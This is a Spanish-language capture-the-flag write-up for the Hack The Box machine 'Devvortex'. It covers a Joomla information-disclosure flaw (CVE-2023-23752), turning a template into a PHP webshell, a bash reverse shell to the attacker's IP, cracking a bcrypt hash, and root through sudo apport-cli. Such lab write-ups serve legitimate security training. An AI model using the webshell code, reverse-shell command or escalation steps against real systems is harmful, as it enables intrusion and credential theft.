

# Devvortex

`Devvortex` es una máquina Linux de dificultad fácil que cuenta con un CMS Joomla que es vulnerable a la divulgación de información. Acceder al archivo de configuración del servicio revela credenciales de texto simple que conducen al acceso administrativo a la instancia de Joomla. Con acceso administrativo, la plantilla de Joomla se modifica para incluir código PHP malicioso y obtener un shell. Después de obtener un shell y enumerar el contenido de la base de datos, se obtienen credenciales en formato hash, que se descifran y conducen al acceso SSH a la máquina. La enumeración posterior a la explotación revela que el usuario tiene permiso para ejecutar apport-cli como root, lo que se aprovecha para obtener un shell root.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Devvortex**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.242 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 18:37 CET
Initiating SYN Stealth Scan at 18:37
Scanning 10.10.11.242 [65535 ports]
Discovered open port 80/tcp on 10.10.11.242
Discovered open port 22/tcp on 10.10.11.242
Completed SYN Stealth Scan at 18:37, 28.72s elapsed (65535 total ports)
Nmap scan report for 10.10.11.242
Host is up, received user-set (0.12s latency).
Scanned at 2025-02-05 18:37:08 CET for 28s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 28.83 seconds
           Raw packets sent: 77282 (3.400MB) | Rcvd: 77296 (3.092MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.242
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentra expuesta una página web de **Nginx** y el servicio **SSH**.

```bash
❯ nmap -sCV -p22,80 10.10.11.242 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 18:41 CET
Nmap scan report for devvortex.htb (10.10.11.242)
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: DevVortex
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   105.62 ms 10.10.16.1
2   105.55 ms devvortex.htb (10.10.11.242)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.07 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos en nuestro archivo `/etc/hosts` la siguiente entrada.

```bash
❯ cat /etc/hosts | grep 10.10.11.242
10.10.11.242 devvortex.htb
```

## Web Enumeration

Realizaremos una enumeración básica de las tecnologías que utiliza el sitio web a través de la herramienta de `whatweb`.

```bash
❯ whatweb http://devvortex.htb/
http://devvortex.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@DevVortex.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.242], JQuery[3.4.1], Script[text/javascript], Title[DevVortex], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

Al acceder a [http://devvortex.htb,](http://devvortex.htb,) verificamos que se trata de una página en la cual a simple vista no logramos ver más páginas ni ningún tipo de información relevante.

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de directorios y páginas, no logramos visualizar algún contenido que nos pueda servir de utilidad.

```bash
❯ dirsearch -u 'http://devvortex.htb' -i 200 -t 50 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Devvortex/Devvortex/reports/http_devvortex.htb/_25-02-05_18-45-12.txt

Target: http://devvortex.htb/

[18:45:12] Starting: 
[18:45:21] 200 -    7KB - /about.html
[18:45:35] 200 -    9KB - /contact.html

Task Completed
```

### Subdomain Enumeration

Tratando de realizar una enumeración de subdominios de la página web, nos encontramos con el subdominio `dev`.

```bash
❯ wfuzz --hh=154 -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.devvortex.htb" http://devvortex.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://devvortex.htb/
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                              
=====================================================================

000000821:   200        501 L    1581 W     23221 Ch    "dev"  
```

Añadiremos esta nueva entrada en nuestro archivo `/etc/hosts`.

```bash
❯ catnp /etc/hosts | grep 10.10.11.242
10.10.11.242 devvortex.htb dev.devvortex.htb
```

Al acceder a [http://dev.devvortex.htb](http://dev.devvortex.htb) nos encontramos con una página similar a la anterior.

<figure><figcaption></figcaption></figure>

Realizando una enumeración de directorios y páginas web del nuevo subdominio, nos encontramos con diferentes directorios y páginas que podremos investigar más adelante.

```bash
❯ dirsearch -u 'http://dev.devvortex.htb' -i 200 -t 50 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Devvortex/Devvortex/reports/http_dev.devvortex.htb/_25-02-05_18-52-11.txt

Target: http://dev.devvortex.htb/

[18:52:11] Starting: 
[18:53:06] 200 -   31B  - /administrator/cache/
[18:53:06] 200 -   31B  - /administrator/logs/
[18:53:07] 200 -   12KB - /administrator/
[18:53:07] 200 -   12KB - /administrator/index.php
[18:53:33] 200 -   31B  - /cache/
[18:53:40] 200 -   31B  - /cli/
[18:53:43] 200 -   31B  - /components/
[18:53:48] 200 -    0B  - /configuration.php
[18:54:27] 200 -    7KB - /htaccess.txt
[18:54:30] 200 -   31B  - /images/
[18:54:32] 200 -   31B  - /includes/
[18:54:43] 200 -   31B  - /layouts/
[18:54:44] 200 -   31B  - /libraries/
[18:54:44] 200 -   18KB - /LICENSE.txt
[18:54:56] 200 -   31B  - /media/
[18:55:02] 200 -   31B  - /modules/
[18:55:28] 200 -   31B  - /plugins/
[18:55:36] 200 -    5KB - /README.txt
[18:55:41] 200 -  764B  - /robots.txt
[18:56:08] 200 -   31B  - /templates/
[18:56:08] 200 -   31B  - /templates/index.html
[18:56:09] 200 -    0B  - /templates/system/
[18:56:12] 200 -   31B  - /tmp/
[18:56:29] 200 -    3KB - /web.config.txt

Task Completed
```

## Initial Foothold

### Abusing Joomla to get version with joomla.xml file

Accediendo a [http://dev.devvortex.htb/administrator/](http://dev.devvortex.htb/administrator/) nos encontramos con un panel de inicio de sesión del CMS de **Joomla**.

<figure><figcaption></figcaption></figure>

Podemos hacer uso de la herramienta de `Joomscan` para tratar de verificar la versión de **Joomla** que se encuentra instalada, pero en este caso, decidimos optar por revisarlo manualmente si era posible.

Nos encontramos con el siguiente blog, en el cual nos mencionan cómo podemos intentar verificar la versión de **Joomla** a través de HTTP.



Ralizamos la siguiente petición con`cURL` y visualizamos la versión que está utilizando **Joomla**.

```bash
❯ curl -s -X GET 'http://dev.devvortex.htb/administrator/manifests/files/joomla.xml' | grep '<version>'
	<version>4.2.6</version>
```

### Joomla Exploitation - Sensitive Data Disclosure (CVE-2023-23752)

Revisando posibles vulnerabilidades de esta versión de **Joomla**, nos encontramos con el siguiente `CVE-2023-23752`.




Se descubrió un problema en Joomla! 4.0.0 a 4.2.7. Una comprobación de acceso incorrecta permite el acceso no autorizado a los puntos finales del servicio web.


Buscando más información por Internet, nos encontramos con el siguiente blog en el cual nos menciona la vulnerabilidad y diferentes opciones para probar de intentar aprovecharnos.



En este caso, a través de la siguiente petición con `cURL`, nos encontramos con unas credenciales en texto plano expuestas en el EndPoint.

```bash
❯ curl -s 'http://dev.devvortex.htb/api/index.php/v1/config/application?public=true' | jq
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true",
    "next": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20",
    "last": "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"
  },
  "data": [
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "offline_message": "This site is down for maintenance.<br>Please check back again soon.",
        "id": 224
      }
    },
...[snip]...
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224
      }
    }
```

Realizando la siguiente consulta, verificamos los usuarios que que se encuentran públicos. Logramos verificar que existe un usuario administrador `lewis` y un usuario registrado llamado `logan`.

```bash
❯ curl -s -X GET 'http://dev.devvortex.htb/api/index.php/v1/users?public=true' | jq
{
  "links": {
    "self": "http://dev.devvortex.htb/api/index.php/v1/users?public=true"
  },
  "data": [
    {
      "type": "users",
      "id": "649",
      "attributes": {
        "id": 649,
        "name": "lewis",
        "username": "lewis",
        "email": "lewis@devvortex.htb",
        "block": 0,
        "sendEmail": 1,
        "registerDate": "2023-09-25 16:44:24",
        "lastvisitDate": "2023-10-29 16:18:50",
        "lastResetTime": null,
        "resetCount": 0,
        "group_count": 1,
        "group_names": "Super Users"
      }
    },
    {
      "type": "users",
      "id": "650",
      "attributes": {
        "id": 650,
        "name": "logan paul",
        "username": "logan",
        "email": "logan@devvortex.htb",
        "block": 0,
        "sendEmail": 0,
        "registerDate": "2023-09-26 19:15:42",
        "lastvisitDate": null,
        "lastResetTime": null,
        "resetCount": 0,
        "group_count": 1,
        "group_names": "Registered"
      }
    }
  ],
  "meta": {
    "total-pages": 1
  }
}

```

Probaremos de verificar si podemos acceder al panel de Administración de **Joomla** a través de las credenciales obtenidas y de los usuarios que disponemos.

<figure><figcaption></figcaption></figure>

### Customizing administration templante to achive RCE

Verificaremos que hemos logrado acceder con el usuario Administrador de **Joomla** `lewis`.

Dado que somos los administradores de **Joomla**, podemos intentar verificar diferentes campos para tratar de obtener acceso al sistema.

Lo primero que se nos ocurrió, fue en intentar modificar alguna plantilla de la web para inyectar algún comando y lograr obtener un **RCE**. Para ello, deberemos de ingresar a (System < Templates)

<figure><figcaption></figcaption></figure>

Al acceder a las plantillas que dispone el sitio web, tratamos de modificar la plantilla del archivo `index.php` indicándole que nos muestre un nuevo `meta tag` para verificar en el código fuente que se haya modificado correctamente. En este caso, al intentar guardar los cambios, se nos indicaba que no disponíamos de los permisos necesarios para escribir en el archivo.

<figure><figcaption></figcaption></figure>

Por lo que decidimos probar en el archivo `error.php`, con lo cual verificamos que este archivo se trataba de una página en PHP, añadimos una nueva cadena para que nos imprima el valor `gzzcoo`. Al intentar guardar la plantilla modificada, verificamos que en este caso si nos permitió guardarla.

<figure><figcaption></figcaption></figure>

Al tratar de acceder a una ruta que no existe, por ejemplo http://dev.devvortex.htb/gzzcoo, verificamos que se nos muestra la plantilla de `error.php` y se nos visualiza el comando que hemos inyectado en la plantilla.

<figure><figcaption></figcaption></figure>

Volvimos de nuevo para editar el archivo `error.php`, para que esta vez a través de la función `system` de PHP intente ejecutar el comando `whoami`.

<figure><figcaption></figcaption></figure>

Al tratar de acceder de nuevo a una página inexistente para que nos cargue el `error.php`, verificamos que se ha logrado ejecutar el comando `whoami` sin problemas, por lo tanto, parece ser que hemos logrado obtener una potencial vía para lograr un **RCE** y ejeuctar comandos  arbitrarios en el servidor.

<figure><figcaption></figcaption></figure>

Editamos nuevamente la plantilla de `error.php` para que nos incluya la siguiente función que lo que realizará es una **webshell** para lograr ejecutar comandos a través del parámetro `gzzcoo` para así no tener que ir editando cada vez la plantilla.

```php
if (isset($_REQUEST['gzzcoo'])) {
  system($_REQUEST['gzzcoo']);
  die();
}
```

<figure><figcaption></figcaption></figure>

Revisaremos desde consola, a través de la herramienta `cURL` de si la webshell creada funciona correctamente. En este caso, haremos una petición a una página inexistente para que nos salte la plantilla de `error.php` e indicaremos el parámetro configurado y el comando a ejecutar. Logramos tener una **webshell** a través de una plantilla modificada de **Joomla**.

```bash
❯ curl -s 'http://dev.devvortex.htb/gzzcoo' --data-urlencode 'gzzcoo=whoami'
www-data
```

El siguiente paso será lograr obtener acceso remoto al sistema. Por lo tanto, nos pondremos en escucha con **nc**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos la Reverse Shell a través de la **webshell** que disponemos.

```bash
❯ curl -s 'http://dev.devvortex.htb/gzzcoo' --data-urlencode 'gzzcoo=/bin/bash -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"'
```

Verificamos que logramos acceder al sistema y nos encontramos como usuario `www-data`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.242] 35136
bash: cannot set terminal process group (854): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb$
```

## Initial Access

### Database Enumeration

Dado que disponemos de un usuario con privilegios limitados, visualizaremos posibles usuarios en los cuáles nos interesaría pivotar. En este caso, verificamos que los únicos usuarios que disponen de una `bash` son los usuarios `root` y `logan`.

```bash
www-data@devvortex:~/dev.devvortex.htb$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
logan:x:1000:1000:,,,:/home/logan:/bin/bash
```

Revisando los archivos que disponemos en el dierctorio actual, verificamos que hay uno que nos llama bastante la atención, el archivo que miraremos su contenid es el de `configuration.php`.

```bash
www-data@devvortex:~/dev.devvortex.htb$ ls -l
total 112
-rwxr-xr-x  1 www-data www-data 18092 Dec 13  2022 LICENSE.txt
-rwxr-xr-x  1 www-data www-data  4942 Dec 13  2022 README.txt
drwxr-xr-x 11 www-data www-data  4096 Dec 13  2022 administrator
drwxr-xr-x  5 www-data www-data  4096 Dec 13  2022 api
drwxr-xr-x  2 www-data www-data  4096 Dec 13  2022 cache
drwxr-xr-x  2 www-data www-data  4096 Dec 13  2022 cli
drwxr-xr-x 18 www-data www-data  4096 Dec 13  2022 components
-rw-r--r--  1 www-data www-data  2037 Sep 25  2023 configuration.php
-rwxr-xr-x  1 www-data www-data  6858 Dec 13  2022 htaccess.txt
drwxr-xr-x  5 www-data www-data  4096 Dec 13  2022 images
drwxr-xr-x  2 www-data www-data  4096 Dec 13  2022 includes
-r-xr-x---  1 www-data www-data  1068 Dec 13  2022 index.php
drwxr-xr-x  4 www-data www-data  4096 Dec 13  2022 language
drwxr-xr-x  6 www-data www-data  4096 Dec 13  2022 layouts
drwxr-xr-x  6 www-data www-data  4096 Dec 13  2022 libraries
drwxr-xr-x 71 www-data www-data  4096 Dec 13  2022 media
drwxr-xr-x 26 www-data www-data  4096 Dec 13  2022 modules
drwxr-xr-x 25 www-data www-data  4096 Dec 13  2022 plugins
-rwxr-xr-x  1 www-data www-data   764 Dec 13  2022 robots.txt
drwxr-xr-x  4 www-data www-data  4096 Dec 13  2022 templates
drwxr-xr-x  2 www-data www-data  4096 Feb  5 23:04 tmp
-rwxr-xr-x  1 www-data www-data  2974 Dec 13  2022 web.config.txt
```

Al visualizar el contenido de este archivo, logramos obtener las credenciales en texto plano del acceso al MySQL.

```bash
www-data@devvortex:~/dev.devvortex.htb$ cat configuration.php 
<?php
class JConfig {
	public $offline = false;
	public $offline_message = 'This site is down for maintenance.<br>Please check back again soon.';
	public $display_offline_message = 1;
	public $offline_image = '';
	public $sitename = 'Development';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = 20;
	public $access = 1;
	public $debug = false;
	public $debug_lang = false;
	public $debug_lang_const = true;
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'lewis';
	public $password = 'P4ntherg0t1n5r3c0n##';// Some code
```

Verificaremos que disponemos de `MySQL` instalado en el equipo, al comprobar esto, nos conectaremos con las credenciales obtenidas.

Al acceder al MySQL, visualizamos las bases de datos existentes, trataremos de investigar la tabla `joomla`.

```bash
www-data@devvortex:~/dev.devvortex.htb$ which mysql
/usr/bin/mysql

www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 9425
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.01 sec)

mysql> USE joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> 
```

Al visualizar las tablas que disponía esta BBDD, nos llama la atención la tabla nombrada como `sd4fg_users`.

<pre class="language-bash"><code class="lang-bash">mysql> SHOW TABLES;
+-------------------------------+
| Tables_in_joomla              |
+-------------------------------+
| sd4fg_action_log_config       |
| sd4fg_action_logs             |
| sd4fg_action_logs_extensions  |
| sd4fg_action_logs_users       |
<strong>
</strong><strong>...[snip]...
</strong>
| sd4fg_user_keys               |
| sd4fg_user_mfa                |
| sd4fg_user_notes              |
| sd4fg_user_profiles           |
| sd4fg_user_usergroup_map      |
| sd4fg_usergroups              |
| sd4fg_users                   |
| sd4fg_viewlevels              |
| sd4fg_webauthn_credentials    |
| sd4fg_workflow_associations   |
| sd4fg_workflow_stages         |
| sd4fg_workflow_transitions    |
| sd4fg_workflows               |
+-------------------------------+
71 rows in set (0.00 sec)
</code></pre>

Al revisar los valores de esta tabla, logramos obtener el hash de la contraseña del usuario `logan` el cual no disponíamos de acceso a él y si bien recordamos, disponía de `bash` para acceder al sistema.

```bash
mysql> SELECT * FROM sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2025-02-05 23:01:42 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```

Verificamos que el hash se trata de un hash tipo `Blowfish`, intentamos crackear este hash a través de `hashcat` y verificamos que logramos obtener la contraseña en texto plano.

```bash
❯ hashid '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
Analyzing '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU


$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

Intentaremos acceder con estas nuevas credenciales mediante SSH, logramos el acceso y visualizar la flag de **user.txt**.

```bash
❯ ssh logan@devvortex.htb
The authenticity of host 'devvortex.htb (10.10.11.242)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:18: [hashed name]
    ~/.ssh/known_hosts:29: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'devvortex.htb' (ED25519) to the list of known hosts.
logan@devvortex.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)


Last login: Mon Feb 26 14:44:38 2024 from 10.10.14.23
logan@devvortex:~$ cat user.txt 
272c6688bdf7********************
```

## Privilege Escalation

### Abusing sudoers privilege (apport-cli)

Al revisar si el usuario actual `logan` disponía de algún permiso de `sudoers`, nos encontramos que puede ejecutar como usuario `sudo` el binario `/usr/bin/apport-cli`

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Revisando por Internet posibles maneras de escalar nuestros privilegios a través de este privilegio sobre el binario, nos encontramos con el siguiente PoC.



La idea principal de esta escalada de privilegios, es realizar un reporte random y en el último paso cuando se genere el reporte, ingresar la opción `V` para acceder a un modo de visualización (similar al comando less) y salir de este modo a través de `!bash` y convertirnos en usuario `root`.

Verificamos que logramos disponer de una bash de `root` y visualizar la flag de **root.txt**.

```bash
logan@devvortex:~$ sudo /usr/bin/apport-cli --file-bug

*** What kind of problem do you want to report?


Choices:
  1: Display (X.org)
  2: External or internal storage devices (e. g. USB sticks)
  3: Security related problems
  4: Sound/audio related problems
  5: dist-upgrade
  6: installation
  7: installer
  8: release-upgrade
  9: ubuntu-release-upgrader
  10: Other problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/9/10/C): 1


*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.

*** What display problem do you observe?


Choices:
  1: I don't know
  2: Freezes or hangs during boot or usage
  3: Crashes or restarts back to login screen
  4: Resolution is incorrect
  5: Shows screen corruption
  6: Performance is worse than expected
  7: Fonts are the wrong size
  8: Other display-related problem
  C: Cancel
Please choose (1/2/3/4/5/6/7/8/C): 2

*** 

To debug X freezes, please see https://wiki.ubuntu.com/X/Troubleshooting/Freeze

Press any key to continue... !
..dpkg-query: no packages found matching xorg
..................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

What would you like to do? Your options are:
  S: Send report (1.4 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v
!bash
root@devvortex:/home/logan# cat /root/root.txt 
4dd686c1************************
```
